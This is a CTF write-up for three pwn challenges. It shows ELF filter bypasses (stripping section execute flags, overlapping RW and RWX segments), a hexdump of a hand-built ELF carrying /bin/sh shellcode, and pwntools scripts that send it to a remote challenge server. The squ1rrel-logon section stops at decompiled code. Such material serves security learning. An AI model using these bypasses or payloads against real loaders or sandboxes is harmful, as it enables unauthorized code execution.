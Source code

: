 
1. Extremely Lame Filters 1
2. Extremely Lame Filters 2
3. squ1rrel-logon

If you want to get binary or bytes of ELF probs, DM me(Discord : guardianch)

--- 
# Extremely Lame Filters 1

`elf.py` analyze input ELF file.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!!"))
elf = parse(data)

for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")

elf.run()
```

`fairy.py` check sections flag of input file. If there is EXECINSTR flag in `sh_flags`, program turns off. However, `sh_flags` doesn't affect execution of the program, so just remove every EXECINSTR flag. funny trick lol. If section's flag is `06`, change it to `02`. After manipulating, send it to server.

# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5002')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex_nofilter', 'rb').read())
p.sendlineafter(b'!!', dt)
p.interactive()
```

---
# Extremely Lame Filters 2

`elf.py` is same as last prob.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!! (almost any)"))
elf = parse(data)

if elf.header.e_type != constants.ET_EXEC:
    print("!!")
    exit(1)

for segment in elf.segments:
    if segment.p_flags & SegmentFlags.X:
        content = elf.content(segment)
        for byte in content:
            if byte != 0:
                print(">:(")
                exit(1)

elf.run()
```

`e_type` should be `ET_EXEC`. It means elf must not have any linking. It is resolved by write shellcode and compile it. Second, it check segment's `p_flags`. `p_flags` affect program execution, so we can't use method used to solve `Extremely Lame Filters 1`. We need to know new trick haha.
First, load the bytes with RW permission, and load same position with RWX permission, but very small length. In this case, because the program data is allocated in units of one page, the permission of that page changes to RWX. However, it check only a little bytes. It's easy to say, but there's actually more to care about.

```
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
00000010: 0200 3e00 0100 0000 e800 0100 0000 0000  ..>.............
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 4000 3800 0400 4000 0000 0000  ....@.8...@.....
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0100 0000 0600 0000 0800 0000 0000 0000  ................
00000080: 0800 0100 0000 0000 0800 0100 0000 0000  ................
00000090: f500 0000 0000 0000 f500 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0100 0000 0700 0000  ................
000000b0: 0800 0000 0000 0000 0800 0100 0000 0000  ................
000000c0: 0800 0100 0000 0000 0800 0000 0000 0000  ................
000000d0: 0800 0000 0000 0000 0002 0000 0000 0000  ................
000000e0: 2f62 696e 2f73 6800 bf01 0102 0181 f7e1  /bin/sh.........
000000f0: 0103 0131 d231 f66a 3b58 0f05            ...1.1.j;X..
```

```
Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  <unknown>: 464 0x0000000000000000 0x00000001003e0002 0x00000000000100e8
                 0x0000000000000000 0x0000000000000000   W     0x38004000000000
  <unknown>: 400 0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000         0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x00000000000000f5 0x00000000000000f5  RW     0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x0000000000000008 0x0000000000000008  RWE    0x200
```

This is my binary. I set `Number of program headers` to 4, and `Start of program headers` to 0. Therefore program headers 1, 2 is abnormal. Program header 3 which has RW permission load bytes located in 0x8 to 0xfb(end of file), and Set `VirtualAddress` to 0x10008. Program header 4 which has RWX permission load only 8 bytes into the same position. Since bytes located in 0x08 to 0x0f is `\x00`, it can pass the check, and change permission to RWX. my shellcode starts at 0xe8, so set `Entry point address` to `0x100e8`. Now it works!
# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5003')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex4', 'rb').read())
p.sendlineafter(b')', dt)
p.interactive()
```

---
# squ1rrel-logon

```bash
[*] '/mnt/d/squ1rrel/squ1rrel-logon/terminal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    Stripped:   No
```

Partial RELRO, No canary, No PIE. But Nevermind. I don't use these.

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  print_banner();
  pthread_create(&userinfo_thread, 0LL, userinfo, 0LL);
  pthread_create(&auth_thread, 0LL, auth, 0LL);
  pthread_join(auth_thread, 0LL);
  return 0;
}
```

It use two threads.

```C
void *__fastcall auth(void *a1)
{
  char s1[256]; // [rsp+10h] [rbp-210h] BYREF
  char buf[264]; // [rsp+110h] [rbp-110h] BYREF
  int v4; // [rsp+218h] [rbp-8h]
  int fd; // [rsp+21Ch] [rbp-4h]

  fd = open("flag.txt", 0);
  if ( fd < 0 )
  {
    puts("Error initializing authentication. Please contact support if on remote.");
    exit(1);
  }
  v4 = read(fd, buf, 0x100uLL);
  buf[v4 - 1] = 0;
  close(fd);
  pthread_join(userinfo_thread, 0LL);
  printf("\x1B[1;36m[SYSTEM] Enter security token: \x1B[0m");
  readline(s1, 0x100uLL);
  if ( !strcmp(s1, buf) )
  {
    puts("\x1B[1;32m[ACCESS GRANTED] Welcome to the system\x1B[0m");
    system("/bin/sh");
  }
  else
  {
    puts("\x1B[1;31m[ACCESS DENIED] Invalid security token\x1B[0m");
    puts("\x1B[1;31m[SYSTEM] Session terminated\x1B[0m");
  }
  return 0LL;
}
```

`auth` read `flag.txt` content and write in stack. 